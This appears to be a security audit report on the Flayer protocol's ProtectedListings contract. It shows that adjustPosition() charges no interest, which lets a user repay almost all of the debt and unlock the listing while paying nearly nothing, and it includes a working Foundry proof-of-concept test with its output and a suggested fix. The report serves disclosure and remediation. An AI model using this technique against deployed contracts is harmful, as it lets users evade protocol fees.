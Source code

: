 Loud Bone Cottonmouth

Medium

# User can avoid paying interest rate on their protected Listing by adjusting the position

### Summary

Lack of interest charge in `ProtectedListings.adjustPosition()` allows a user to avoid paying interest rate. The user can reduce their `tokenTaken` value to smallest amount possible, then when he unlocks the protected listing, the interest rate charged would be calculated based on the reduced amount.

### Root Cause

in `ProtectedListings.adjustPosition()` the `_amount` provided by the user can be directly deducted from the `tokenTaken`. As the `tokenTaken` is reduced when user wants to unlock their protected listing, he will call `ProtectedListings.unlockProtectedListing()`. Then the interest rate shall be calculated only based on the remaining `tokenTaken`. What the user repaid using `adjustPosition()` is on zero interest.

The problematic function:
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L366

### Internal pre-conditions

1. A user needs to have a created protected listing which is healthy (i.e. the protected listing did not yet run out of collateral)

### External pre-conditions

No external pre-conditions are required.

### Attack Path

1. User creates a protected listing with certain amounts of `tokenTaken`
2. After some time the user instead of calling `ProtectedListings.unlockProtectedListing()` is calling `ProtectedListings.adjustPosition()` and repays the debt up to maximum amount possible. 
3. user calls `ProtectedListings.unlockProtectedListing()` and pays the interest on the minimum amount of debt that is left to unlock the listing.

### Impact

There is no impact to the fee loss of the protocol as in `ProtectedListings` the fees paid by the user are burned. however by allowing users to create protected listings without sufficient fees, the protocol tokenomics might be negatively affected as it could lead to over use of the protected listings and increase the ERC20 supply.

### PoC

PoC test:
```solidity
    function test_MyAbuseAdjustPosition() public {
        address payable _owner1 = payable(address(0x01));

        // Deploy our platform contracts
        _deployPlatform();

        // Define our `_poolKey` by creating a collection. This uses `erc721b`, as `erc721a`
        // is explicitly created in a number of tests.
        locker.createCollection(address(erc721a), 'Test Collection', 'TEST', 0);

        // Initialise our collection
        _initializeCollection(erc721a, SQRT_PRICE_1_2);

        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner1, TOKEN_ID);

        deal(address(locker.collectionToken(address(erc721a))), _owner1, 2 ether);

        uint balanceBefore = locker.collectionToken(address(erc721a)).balanceOf(_owner1);

        // Create our listing for owner 1
        vm.startPrank(_owner1);
        erc721a.approve(address(protectedListings), TOKEN_ID);

        IProtectedListings.ProtectedListing memory listing = IProtectedListings.ProtectedListing({
            owner: _owner1,
            tokenTaken: 0.4 ether,
            checkpoint: 0
        });

        // Create our listing
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(TOKEN_ID),
                listing: listing
            })
        });
        vm.stopPrank();

        // Warp forward half the time, so that we can test the required amount to be repaid in addition
        vm.warp(block.timestamp + (VALID_LIQUID_DURATION / 2));

        // unlock the listing:
        vm.startPrank(_owner1);
        locker.collectionToken(address(erc721a)).approve(address(protectedListings), 1 ether);
        //protectedListings.adjustPosition(address(erc721a), TOKEN_ID, -(0.4 ether - 1));
        protectedListings.unlockProtectedListing(address(erc721a), TOKEN_ID, true);

        uint balanceAfter = locker.collectionToken(address(erc721a)).balanceOf(_owner1);

        console.log("Paid: %d", balanceBefore - balanceAfter);
    }
```
Run the PoC code as it is and you should get the total cost of the protected listing interest:
```diff
[PASS] test_MyAbuseAdjustPosition() (gas: 25609630)
Logs:
  Paid: 2055890410801919
```
next uncomment the following line which repays the entire debt minus `1`:
```solidity
//protectedListings.adjustPosition(address(erc721a), TOKEN_ID, -(0.4 ether - 1));
```
After running again, we see that the cost to the user was zero:
```diff
[PASS] test_MyAbuseAdjustPosition() (gas: 25612537)
Logs:
  Paid: 0
```

### Mitigation

Implement interest rate charge at the `adjustPosition()` position function when users decreases their debt.